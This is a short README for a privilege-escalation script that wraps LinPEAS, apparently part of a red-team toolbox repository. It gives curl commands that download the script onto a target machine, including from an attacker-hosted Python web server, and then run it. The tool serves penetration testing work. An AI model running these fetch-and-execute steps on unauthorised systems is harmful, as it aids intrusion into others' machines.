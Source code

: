 # Privilege Escalation Phase

Definition Privilege Escalation...

This script implements *LinPEAS* from [PEASS-ng](https://github.com/carlospolop/PEASS-ng).

For more information, go to [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

## Usage

From github:
```sh
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/privesc/privesc.sh
sh privesc.sh -h
```
Local network:
```sh
# Host:
python3 -m http.server 8000 #python3
python2 -m SimpleHTTPServer 8000 #python2

# Target:
curl -LJO <Host>:8000/privesc.sh
sh privesc.sh -h
```

## Results

The results are printed directly to STDOUT.
To print the output to a file, use the following command:
```sh
sh privesc.sh -a > /output/file.txt
```
You can read the file with colors:
```sh
less -r /output/file.txt
```

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems. 